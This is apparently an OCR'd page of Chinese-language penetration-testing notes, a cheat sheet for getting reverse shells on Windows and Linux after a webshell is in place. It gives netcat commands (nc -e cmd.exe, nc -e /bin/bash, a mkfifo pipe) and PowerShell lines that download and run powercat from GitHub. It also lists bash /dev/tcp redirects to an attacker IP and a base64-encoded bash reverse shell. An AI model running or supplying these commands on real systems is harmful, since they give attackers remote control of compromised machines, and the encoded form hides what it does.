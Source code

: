 >  cmd 反弹 ：需要借助nc 工具。netcat瑞士军刀
>
> 步骤： 1.上传nc.exe 到服务器；2.本地监听特殊端口号

1.攻击机监听端口

```
nc -lnvp 1234
```

2.被攻击服务器端反弹Shell 【这些都可去在线反弹shell上生成】

```
nc.exe -e cmd.exe 10.4.7.1 1234

/c C:\RECYCLER\nc.exe -e cmd.exe 10.9.69.77 1234
/c C:\RECYCLER\pr.exe "C:\RECYCLER\nc.exe -e cmd.exe 10.9.69.77 1234"
```

> 2 powershell 反弹:需要从外网下载工具

1.攻击机监听端口 (如果失败、识别不了之类的，可能是因为外网下载，可以手动下载本地再上传)

```
powershell IEX (New-Object
System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');
powercat -l -p 1234
```

2.服务器端反弹shell (如果失败、识别不了之类的，可能是因为外网下载，可以手动下载本地再上传)

```sh
powershell IEX (New-Object
System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c 10.4.7.1 -p 1234 -e cmd   #将cmd发送到 10.4.7.1:1234
```





## linux 平台

在获得目标系统WebShell 的情况下

1.本地监听端口 -nc工具

```sh
nc -lnvp 2333
ncat -lnvp 2333
```

2 服务端反弹shell 【这些都可去在线反弹shell上生成】

```
# nc 反弹shell
nc -e /bin/bash 10.4.7.1 2333

# nc 无-e 参数
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.4.7.1 2333 >/tmp/f

# 利用bash 反弹
/bin/bash -i >& /dev/tcp/10.4.7.1/2333 0>&1
bash -i >& /dev/tcp/10.4.7.1/2333 0>&1
/bin/sh -i >& /dev/tcp/10.4.7.1/2333 0>&1
sh -i >& /dev/tcp/10.4.7.1/2333 0>&1

# 反弹shell 命令编码
echo "L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjQuNy4xLzIzMzQgMD4mMQ==" | base64 -d | bash
```
